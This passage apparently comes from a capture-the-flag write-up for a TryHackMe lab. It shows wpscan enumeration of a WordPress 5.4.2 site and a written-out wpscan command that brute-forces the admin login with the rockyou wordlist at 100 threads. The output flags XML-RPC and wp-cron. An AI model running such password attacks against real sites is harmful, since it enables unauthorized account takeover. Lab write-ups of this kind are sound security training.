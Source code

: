 ```text
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  2 22:21:05 2021
[+] Requests Done: 70
[+] Cached Requests: 7
[+] Data Sent: 16.783 KB
[+] Data Received: 16.51 MB
[+] Memory used: 181.422 MB
[+] Elapsed time: 00:00:05
root@kali:/home/kali/thm/internal# 
```

We have confirmation the version of WordPress is 5.4.2, an out of date theme but not much else. We do have the user admin, let's try rockyou against it and see if we can brute force our way in:

```text
root@kali:/home/kali/thm/internal# wpscan --url internal.thm/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 100
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.15
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/wordpress/ [10.10.249.199]
[+] Started: Tue Mar  2 22:31:33 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

```